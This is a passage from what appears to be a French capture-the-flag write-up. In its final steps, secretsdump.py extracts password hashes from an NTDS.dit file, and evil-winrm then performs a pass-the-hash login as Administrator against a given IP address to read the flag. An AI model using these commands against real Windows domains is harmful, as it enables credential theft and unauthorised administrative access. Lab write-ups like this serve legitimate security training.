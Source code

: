 ### Étape 9 : Extraction des hashes depuis NTDS.dit
Sur notre machine locale, nous pouvons utiliser secretsdump.py pour extraire les hashes du fichier NTDS.dit :

```
$ secretsdump.py -ntds ntds.dit -system system.save LOCAL
```

### Étape 10 : Utilisation du hash Administrateur pour Pass-the-Hash
Maintenant, nous pouvons utiliser le hash Administrateur pour accéder au système avec une attaque pass-the-hash :

```
evil-winrm -i 51.79.55.195 -u Administrator -H <hash>
```

### Étape 11 : Récupération du flag final
Une fois connecté en tant qu'Administrateur, nous pouvons récupérer le flag final :

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag2.txt
FLAG{B3tt3r_0ut_Th4n_1n!}
```

Défi terminé !